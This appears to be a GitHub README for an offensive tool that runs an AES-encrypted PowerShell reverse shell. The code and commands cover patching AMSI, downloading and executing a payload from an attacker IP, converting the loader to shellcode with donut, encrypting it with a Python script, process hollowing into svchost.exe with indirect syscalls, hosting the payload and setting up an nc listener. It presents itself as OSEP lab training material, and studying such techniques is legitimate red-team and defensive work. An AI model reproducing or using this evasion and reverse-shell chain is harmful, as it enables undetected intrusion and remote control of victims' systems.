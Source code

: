 # Stealth-Shellcode-Runner

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **partial indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:

- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use this Python script to AES-encrypt the generated shellcode and format the output as C# byte arrays for easy pasting:

```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import pyperclip

with open("shellcode.bin", "rb") as f:
    raw_shellcode = f.read()

key = get_random_bytes(32)
iv = get_random_bytes(16)
pad_len = 16 - (len(raw_shellcode) % 16)
padded_shellcode = raw_shellcode + bytes([pad_len] * pad_len)

cipher = AES.new(key, AES.MODE_CBC, iv)
encrypted = cipher.encrypt(padded_shellcode)

def format_csharp_array(name, byte_data):
    return f"byte[] {name} = new byte[] {{ {', '.join(f'0x{b:02x}' for b in byte_data)} }};"

output = (
    format_csharp_array("encryptedShellcode", encrypted) + "\n\n" +
    format_csharp_array("aesKey", key) + "\n\n" +
    format_csharp_array("aesIV", iv)
)

pyperclip.copy(output)
print("[+] C# arrays generated and copied to clipboard.")
```

Paste the generated arrays into your Process Hollowing runner.

---

## 🧠 Step 4 - Execute with Process Hollowing + Partial Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory via partially indirect syscall
- Decrypt and write the AES-encrypted shellcode
- Change protection and execute via `NtCreateThreadEx`

> Note: Only `NtAllocateVirtualMemory` uses an indirect syscall via a memory stub. Other syscalls (`NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`) are still invoked via direct P/Invoke.

📌 Replace the following placeholders with your actual AES-encrypted shellcode and keys:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## 🖥️ Hosting the Reverse Shell Payload

The PowerShell reverse shell is hosted in a file named `shell.ps1`.


Then serve the file using Python's HTTP server from the directory containing `shell.ps1`:

```bash
python3 -m http.server 80
```

---

## 📡 Setting Up the Listener

Use `rlwrap` with `netcat` to handle a fully interactive reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ✅ Final Outcome

- AMSI is silently patched
- PowerShell payload is downloaded and executed in memory
- Shellcode is decrypted and injected into a remote process
- Connection established with full interactivity
- Tested and working in OSEP lab environments with Defender enabled

---

**Built for OSEP training and red team lab use. Not intended for real-world offensive operations without proper authorization.**
